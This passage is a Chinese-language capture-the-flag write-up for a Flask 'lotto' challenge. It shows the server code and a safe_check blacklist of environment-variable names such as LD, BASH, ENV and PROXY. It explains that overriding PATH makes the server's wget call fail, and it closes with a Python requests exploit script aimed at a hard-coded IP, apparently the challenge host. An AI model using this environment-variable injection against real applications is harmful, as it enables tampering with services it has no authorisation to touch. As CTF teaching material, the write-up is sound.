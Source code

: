 ```python
@app.route("/")
def index():
    lotto = []
    for i in range(1, 20):
        n = str(secrets.randbelow(40))
        lotto.append(n)
    
    r = '\n'.join(lotto)
    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=lotto_result.txt'
    return response

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=80)
```

对于`lotto_key`和`lotto_value`的值，我们可以控制，当然我们就可以控制环境变量，safe_check过滤

```python
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s: 
        return False
    return True
```

>`PATH变量`就是用于保存可以搜索的目录路径，如果待运行的程序不在当前目录，操作系统便可以去依次搜索`PATH变量`变量中记录的目录，如果在这些目录中找到待运行的程序，操作系统便可以直接运行，前提是有执行权限
>
>如果我们控制环境变量`PATH`，让他找不到`wget`，这样`wget --content-disposition -N lotto`就会报错导致程序终止，`/app/lotto_result.txt`当中的内容就一直是第一次访问，随机生成的那个值了
>
>既然`lotto_result.txt`是我们可以知道的，而且不变，我们上传给`forecast`路由的文件内容跟他相同，这样就可以保证两个文件内容相同了。



操作就是：

1. 访问`/lotto`,获取第一次随机数结果，生成`lotto_result.txt`
2. 访问`/result`,就可以获取结果

![image-20220418221002359](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204182210497.png)



3. 修改环境变量PATH，再次访问/lotto就行

```python
import requests
url='http://121.36.217.177:53000/'
requests.post(url+"lotto",data={"lotto_key": " ","lotto_value": " "})
r=requests.get(url+"/result").text.replace(" ", "").split("<p>")[-1].split("</p>")[0]
with open("res.txt", "w+") as f:
    f.writelines(r)
requests.post(url+"forecast", files={'file':open("res.txt","rb")})
r=requests.post(url+"lotto", data={"lotto_key": "PATH","lotto_value": "/"})
print(r.text)
```
